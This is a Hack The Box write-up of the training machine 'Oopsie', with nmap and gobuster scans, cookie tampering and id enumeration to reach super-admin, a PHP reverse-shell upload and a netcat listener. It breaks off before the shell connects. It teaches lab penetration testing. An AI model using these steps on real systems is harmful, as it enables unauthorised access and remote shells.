


# Oopsie - A Hack The Box machine


```bash
nmap -sC -sV $ip -Pn
```

```
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61e43fd41ee2b2f10d3ced36283667c7 (RSA)
|   256 241da417d4e32a9c905c30588f60778d (ECDSA)
|_  256 78030eb4a1afe5c2f98d29053e29c9f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Open browser. From scripts called in home page you extract this path:

```
<script src="/cdn-cgi/login/script.js"></script>
```

Then you are in a login page that provides a way to login as a guest. 

When logged in, and being a guest pay attention to cookies:




Now, in browser change id 2 to id 1 to see if data from other user is exposed.



It is. Change the value of the cookies in the browser to be admin.


Upload a php reverse shell. I usually use the [pentesmonkey one](pentesmonkey.md).

Now I use gobuster to enum possible locations for the upload:

```bash
gobuster dir -u http://10.129.95.191 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt  -t 20
```

```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.95.191
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://10.129.95.191/images/]
/themes               (Status: 301) [Size: 315] [--> http://10.129.95.191/themes/]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.95.191/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.95.191/js/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.95.191/fonts/]
Progress: 87567 / 87665 (99.89%)
===============================================================
==============================================================
```

Nice, but being user admin I can not get into http://10.129.95.191/uploads/.

Is there any other user with more permissions? I will use BurpSuite Intruder to enumerate possible users based on object serialization (id). This  would be the endpoint: http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=30

User id 30 is super admin. With this I update my cookies and now I'm able to access http://10.129.95.191/uploads/pentesmonkey.php. Before that:

```bash
nc -lnvp 1234
```


